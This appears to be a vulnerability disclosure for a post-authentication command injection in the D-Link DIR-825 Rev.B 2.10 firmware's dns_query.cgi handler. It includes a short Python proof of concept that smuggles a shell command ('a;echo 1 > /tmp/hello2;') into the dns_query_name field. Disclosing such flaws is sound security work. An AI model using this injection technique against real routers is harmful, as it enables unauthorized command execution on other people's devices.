

### Description 
```
there is a command injection vulnerability that can cause any system command to be executed after user authentication 

Vulnerability location: file:  /sbin/httpd

The attacker calls this function by sending a post packet to the http://ip/dns_query.cgi
```

### Firmware version
```
version: Rev.B 2.10
download link: ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-825/REVB/
```

### Post package
```
   5 ip = "http://192.168.0.1/"
   6
   7 url = ip + 'dns_query.cgi'
   8
   9 command = "a;echo 1 > /tmp/hello2;"
  10 payload = {
  11     "html_response_page": "back.asp",
  12     "dns_query_name": command,
  13     "html_response_return_page": "st_routing.asp",
  14     "countdonw_time": '12',
  15 }
  16
  17 r = requests.post(url, data=payload)
```

### Exploit exp
`python3 dns-query-comm.py`

### Example output

